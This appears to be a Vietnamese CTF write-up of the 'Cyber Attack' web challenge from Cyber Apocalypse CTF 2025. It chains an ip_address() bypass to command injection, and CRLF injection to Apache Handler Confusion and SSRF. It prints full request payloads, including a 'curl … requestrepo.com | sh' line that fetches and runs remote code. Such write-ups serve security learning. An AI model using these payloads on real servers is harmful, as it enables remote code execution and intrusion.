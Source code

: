 ```yaml
---
layout: default
title: "Cyber Attack"
date: 2025-03-28 21:39:26 +0700
tags: [CTF, Cyber Apocalypse CTF 2025: Tales from Eldoria]
---
```


# [web] Cyber Attack - web - easy
> Author: tan3ora
- Tên: Cyber Attack
- Description: Welcome, Brave Hero of Eldoria. You’ve entered a domain controlled by the forces of Malakar, the Dark Ruler of Eldoria. This is no place for the faint of heart. Proceed with caution: The systems here are heavily guarded, and one misstep could alert Malakar’s sentinels. But if you’re brave—or foolish—enough to exploit these defenses, you might just find a way to weaken his hold on this world. Choose your path carefully: Your actions here could bring hope to Eldoria… or doom us all. The shadows are watching. Make your move.
- *Có source code*
---
## Phân tích
Web target có 2 chức năng:
1. Attack a Domain trỏ tới `/cgi-bin/attack-domain.py` 
2. Attack an IP trỏ tới `/cgi-bin/attack-ip.py`

### Bypass ip_address() -> OS CmdI
Phân tích source code `attack-domain.py` : 
```python
#!/usr/bin/env python3

import cgi
import os
import re

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```
và `attack-ip.py` : 
```python
...
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
...
```
Ở đây đều có thể khai thác OS command Injection nếu ta kiểm soát được giá trị `target` , tuy nhiên phải bypass qua hàm `ip_address()` hoặc bypass regex :
```python
def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)
```
Sau khi tìm kiếm thì có thể bypass được qua hàm `ip_address()` dựa vào [đây](https://hackmd.io/@chuongcd/kmactf2024#ipaddress).
Nên để khai thác OS cmdi ta chỉ cần dùng payload `fe80::1%<command>` là được.

Kiểm tra config của Apache:
```
ServerName CyberAttack 

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip"> 
    Order deny,allow
    Deny from all
    Allow from 127.0.0.1
    Allow from ::1
</Location>
```
Ta thấy  `Attack an IP` chỉ chấp nhận được gọi khi dùng IP local -> cần tìm cách để SSRF tới `Attack an IP`,và chắc chắn là từ `Attack a Domain`.

### Handler Confusion -> SSRF
Quay lại phân tích `attack-domain` ta phát hiện `attack-domain.py` trong `cgi-bin` đã in ra `name` trong thông báo lỗi mà không hề lọc ký tự đặc biệt:
```python
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
```
Có thể sử dụng `CRLF Injection` để inject thêm header,mà ta đã biết ở file cấu hình Apache đã cấu hình `AddType application/x-httpd-php .php` thay vì `AddHandler application/x-httpd-php .php` điều này nghĩa là `AddType` chỉ gán giá trị vào `r->content_type`, không gán trực tiếp `handler`.
Do code cũ trong Apache (từ 1996), Apache có đoạn:
```C
if (!r->handler) {
    r->handler = r->content_type;
}
```
Điều này có thể bị lợi dụng để ép Apache dùng `content_type` làm `handler` –> gây ra Handler Confusion.

Để biết thêm chi tiết có thể đọc thêm tại [đây](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/#%F0%9F%94%A5-3-Handler-Confusion). 

Ta có thể khai thác `CRLF Injection` -> `Handler Confusion` -> `SSRF` với payload : 
```
GET /cgi-bin/attack-domain?target=1.1.1.1&name=ttp://%0d%0aLocation:/ooo%0d%0aContent-Type:proxy:<Link_target> HTTP/1.1
Host: 127.0.0.1:1337
Connection: keep-alive
```
## Khai thác
Bypass `ip_address()` và khai thác OScmdi với payload: 
```
target=fe80::1%;curl 1e5qhv69.requestrepo.com | sh&name=hi
```
Ở requestrepo,sử dụng payload để lấy flag:
![](https://)![](http://note.bksec.vn/pad/uploads/c75ebb82-0061-461d-bf6d-08e12d27bcac.png)


Gửi request:

![](https://)![](http://note.bksec.vn/pad/uploads/42308799-a797-4e00-bf6f-e2e52d5a0add.png)
```
GET /cgi-bin/attack-domain?target=1.1.1.1&name=ttp://%0d%0aLocation:/ooo%0d%0aContent-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip%3Ftarget%3dfe80%253a%253a1%2525%253bcurl%25201e5qhv69.requestrepo.com%2520|%2520sh%26name%3dhi%20%0d%0a%0d%0a HTTP/1.1
Host: 127.0.0.1:1337
Connection: keep-alive
```
Lấy flag:

![](https://)![](http://note.bksec.vn/pad/uploads/5a80d9e5-87fc-45bb-9c60-225573ce158d.png)


